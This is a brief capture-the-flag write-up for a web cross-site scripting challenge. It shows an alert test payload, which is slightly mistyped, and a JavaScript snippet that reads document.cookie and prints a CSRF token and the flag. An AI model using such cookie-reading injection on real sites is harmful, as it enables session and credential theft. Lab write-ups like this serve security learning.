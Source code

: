 # Web: Cross Site Scripting: Tactical Precision Dissaray


Find the flag at ctf-05.

## Problem: 

We have the site and then we try in an form to put our script **</script>alert(1)</script>** and then we observe we get 1.
After that we make our cookie getter script: 

```
const allCookies = document.cookie;
console.log(allCookies);


csrftoken=wF2xNkcgTKSKuKOYFWOSeKeGqOvwSEVttvIgvR0tXRmRvuIHdMzUg3n7AvJfChdB;
flag="SSS{tactical_precision_dissaray_for_beginners}"
```

So, the flag is: **SSS{tactical_precision_dissaray_for_beginners}**
